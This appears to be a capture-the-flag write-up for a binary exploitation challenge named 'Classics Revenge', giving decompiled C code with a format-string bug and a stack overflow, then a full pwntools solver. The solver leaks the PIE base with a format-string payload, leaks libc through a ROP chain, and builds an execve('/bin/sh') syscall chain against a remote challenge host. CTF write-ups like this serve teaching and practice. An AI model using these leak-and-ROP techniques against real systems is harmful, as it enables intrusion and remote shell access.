

## Classics Revenge


### Source Code
```c
void menu(void)

{
  puts("Hello pwner, i\'ll give you two choices . do your magic!.");
  puts("--> [1] shake your proteins.");
  puts("--> [2] drink it.");
  puts("--> [3] go to the gym.");
  printf("> ");
  return;
}
```
```c
void shake(void)

{
  undefined local_dc [4];
  char local_d8 [208];
  
  printf("How many spoons do you want to pour: ");
  __isoc99_scanf(&DAT_0010202e,local_dc);
  printf("Do You want to say something while we are preparing it ?: ");
  read(0,local_d8,199);
  printf(local_d8);
  puts("now go drink it.");
  return;
}
```
```c
void drink(void)

{
  undefined local_48 [64];
  
  puts("Now drink your proteins and give me your feedback\n");
  __isoc99_scanf(&DAT_001020bb,local_48);
  return;
}
```
```c
undefined8 main(void)

{
  char local_11 [5];
  uint local_c;
  
  setup();
  while( true ) {
    menu();
    read(0,local_11,4);
    local_c = atoi(local_11);
    if (local_c == 3) break;
    if (local_c < 4) {
      if (local_c == 1) {
        shake();
      }
      else if (local_c == 2) {
        drink();
      }
    }
  }
  puts("cy@");
  return 0;
}
```

### Overview
Before diving into the exploitation process let's check the security of the binary.<br>


We can see that both ```NX``` and ```PIE``` are enabled (if you don't know what canary is you can check this https://ir0nstone.gitbook.io/notes/types/stack/pie). So in order to solve this we need to :
	<ul>
		<li><strong>Leak PIE base address</strong></li>
		<li><strong>Calculate libc.address</strong></li>
		<li><strong>Pop up a Shell</strong></li>
	</ul>

### Solver
```py
#!/usr/bin/env python3
from pwn import *

libc = ELF(b'libc6_2.27-3ubuntu1.5_amd64.so')
elf = context.binary = ELF('./main')
p = remote('20.216.40.184', 10010)

junk = b'\x90' * 72

p.sendline(b'1')
p.sendline(b'1')
p.recvuntil(b'Do You want to say something while we are preparing it ?: ')
p.sendline(b'%26$p')
leak = int(p.recvline().strip(), 16)
elf.address = leak - 0x2128
log.success(f'PIE base : {hex(elf.address)}')

rop = ROP(elf)
rop.call(elf.plt.puts, [elf.got.puts])
rop.call(elf.sym.main)
log.info(rop.dump())
payload = junk + rop.chain()
p.sendline(b'2')
p.recvuntil(b'Now drink your proteins and give me your feedback\n\n')
p.sendline(payload)
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info(f'puts_got : {hex(leak)}')

libc.address = leak - libc.sym.puts
log.success(f"libc Address : {hex(libc.address)}")

pop_rdi_offset = 0x145b
POPRDI = elf.address + pop_rdi_offset
POPRAX = libc.address + 0x00000000001cf8a8
POPRSI = libc.address + 0x0000000000023a6a
POPRDX = libc.address + 0x0000000000001b96
SYSCALL = libc.address + 0x0000000000002743

pay = junk
pay += p64(POPRAX)
pay += p64(0x3b)
pay += p64(POPRDI)
pay += p64(next(libc.search(b'/bin/sh')))
pay += p64(POPRSI)
pay += p64(0)
pay += p64(POPRDX)
pay += p64(0)
pay += p64(SYSCALL)

p.sendline(b'2')
p.recvuntil(b'Now drink your proteins and give me your feedback\n\n')
p.sendline(pay)

p.interactive()
p.close()
```
